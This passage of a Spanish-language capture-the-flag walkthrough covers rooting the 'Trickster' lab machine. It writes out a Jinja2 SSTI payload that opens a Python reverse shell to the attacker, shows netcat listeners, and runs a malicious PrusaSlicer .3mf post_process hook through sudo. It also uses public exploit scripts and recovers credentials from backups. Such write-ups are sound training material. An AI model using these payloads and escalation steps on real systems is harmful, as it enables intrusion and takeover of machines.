        RX packets 1813  bytes 2613657 (2.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2466  bytes 795682 (795.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Ejecutamos **curl** sobre el activo para comprobar que llegamos:
```console
james@trickster:/$ curl http://172.17.0.2:5000
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login?next=/">/login?next=/</a>. If not, click the link.
james@trickster:/$ 
```

Redirigimos el puerto 5000 remoto a nuestra máquina local, con la idea de poder analizar el sitio en busca de vulnerabilidades que nos permitan escalar privilegios o enumerar información relevante:
```console
sh -L 5000:172.17.0.2:5000 james@trickster.htb
james@trickster.htb's password: 
Last login: Fri Jan 31 19:03:48 2025 from 10.10.14.152
```

Accedemos al sitio desde nuestra máquina por el puerto 5000, enumeramos un software llamado Changedetection.io v0.45.20:


Buscamos por internet, encontramos un exploit que nos permite ejecutar código remoto:
- [changedetection < 0.45.20 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/52027)

Ejecutamos el exploit, pero parece que no funciona:
```console
python3 52027.py --url http://localhost:5000 --port 443 --ip 10.10.14.152
Obtained CSRF token: ImJmODRhNGQwNjNjZmQzOGM4NTZhMzc2MGMxNmZlYTRhMzkxZTRhOGQi.Z50gfg.Y-zescMqrNT1rOMRwcNJsYqfyng
Redirect URL: /login?next=/
Final request made.
[+] Trying to bind to :: on port 443: Done
[q] Waiting for connections on :::443
Listening on port 443...
```

Volvemos al panel, probamos a reutilizar la contraseña de *James* y logramos acceder al aplicativo.
Además, parece que tiene opciones interesantes como *Backup* o conexiones que se están establenciendo con otros dispositivos:


Descargamos la copia de seguridad pulsando en el apartado *BACKUP*, con la idea de descomprimirla y encontrar información sensible en ella:


En el exploit de Python anterior, vimos la existencia de una flag llamada "*--notification*", identificamos en el pie del campo "*Notification Body*" que usa **Jinja2**, esto nos permite ejecutar ataques de tipo *SSTI* (*Server-Side Template Injection*), reutilizamos el payload del exploit, nos ponemos en escucha por el puerto 443 y pulsamos en "*Send test notification*":
```console
{{ x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"<IP>\",<PORT>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/bash\")'").read() }}
```


Conseguimos acceso como *root* al **docker**, 
```console
sudo nc -nvlp 443   
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.152] from (UNKNOWN) [10.10.11.34] 52312
# id
id
uid=0(root) gid=0(root) groups=0(root)
# ls -lna
ls -lna
total 24
drwxr-xr-x 1 0 0 4096 Sep 13 12:24 .
drwxr-xr-x 1 0 0 4096 Sep 26 11:03 ..
-rwxr-xr-x 1 0 0  106 Apr 18  2024 changedetection.py
drwxr-xr-x 1 0 0 4096 Sep 16 15:32 changedetectionio
# 
```

Realizamos un reconocimiento sobre el **docker**, enumeramos una carpeta llamada *datastore*, vemos una estructura similar al backup anteriormente descargado, pero con la diferencia de un directorio extra llamada *Backups*, descargamos ambos ficheros *zip*:
```console
# ls /
ls /
app  boot	dev  home  lib64  mnt  proc  run   srv	tmp  var
bin  datastore	etc  lib   media  opt  root  sbin  sys	usr
# cd /datastore
cd /datastore
# ls
ls
5205dd3b-8a75-45ab-822a-fad680ab83e1  secret.txt	      url-list.txt
Backups				      url-list-with-tags.txt  url-watches.json
# cd Backups
cd Backups
# ls
ls
changedetection-backup-20240830194841.zip
changedetection-backup-20240830202524.zip
```
Descomprimimos los ficheros *zip*, nos encontramos que algunos son legibles, otros son ilegibles con extensión *.txt.br*, preguntamos a **ChatGPT** e identificamos que hay que descomprimirlo con un software llamado **brotli**:


Tras descomprimirlo con **brotli**, encontramos en uno de los ficheros las credenciales de *Adam*:
```php
<?php return array (                                                                                                                                 
                'parameters' =>                                                                                                                                        
                array (                                                                                                                                                
                'database_host' => '127.0.0.1' ,                                                                                                                       
                'database_port' => '' ,                                                                                                                                
                'database_name' => 'prestashop' ,                                                                                                                      
                'database_user' => 'adam' ,                                                                                                                            
                'database_password' => '**************' ,                                                                                                               
                'database_prefix' => 'ps_' ,                                                                                                                           
                'database_engine' => 'InnoDB' ,             
```

Nos autenticamos con *Adam* y vemos que él si puede ejecutar prusaslicer como usuario privilegiado con **SUDO**:
```console
james@trickster:/$ su adam
Password: 
adam@trickster:/$ sudo -l
Matching Defaults entries for adam on trickster:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User adam may run the following commands on trickster:
    (ALL) NOPASSWD: /opt/PrusaSlicer/prusaslicer
adam@trickster:/$ 
```
Buscando por internet, encontramos el siguiente exploit:
- [PrusaSlicer Arbitrary Code Execution
](https://github.com/suce0155/prusaslicer_exploit/)

Seguimos las instrucciones del exploit, modificamos la IP y puerto sobre el fichero *exploit.sh*, si vemos el contenido del fichero *evil.3mf*, contempla el parámetro *post_process* tal y como vimos en el exploit anterior, lo que hará será otorgar permisos y ejecutar nuestro fichero *exploit.sh*, y con el usuario *root*:
```console
; perimeter_extrusion_width = 0.5
; perimeter_generator = arachne
; perimeter_speed = 70
; perimeters = 2
; physical_printer_settings_id = 
; post_process = "chmod +x /tmp/exploit.sh";"bash /tmp/exploit.sh"
; print_settings_id = 0.30mm DRAFT @MK4 0.4 - Copy
; printer_model = MK4
```

Nos ponemos en escucha por el puerto 443 y ejecutamos el binario indicando el fichero malicioso:
```console
adam@trickster:~$ sudo -u root /opt/PrusaSlicer/prusaslicer -s evil.3mf 
10 => Processing triangulated mesh
20 => Generating perimeters
30 => Preparing infill
45 => Making infill
65 => Searching support spots
69 => Alert if supports needed
print warning: Detected print stability issues:

EXPLOIT
Low bed adhesion

Consider enabling supports.
Also consider enabling brim.
88 => Estimating curled extrusions
88 => Generating skirt and brim
```

Conseguimos conexión con el usuario *root*, y leemos la última flag:
```console
sudo nc -nvlp 443   
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.152] from (UNKNOWN) [10.10.11.34] 33852
root@trickster:/home/adam# id
id
uid=0(root) gid=0(root) groups=0(root)
root@trickster:/home/adam# cat /root/root.txt
cat /root/root.txt
******************
root@trickster:/home/adam# 
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!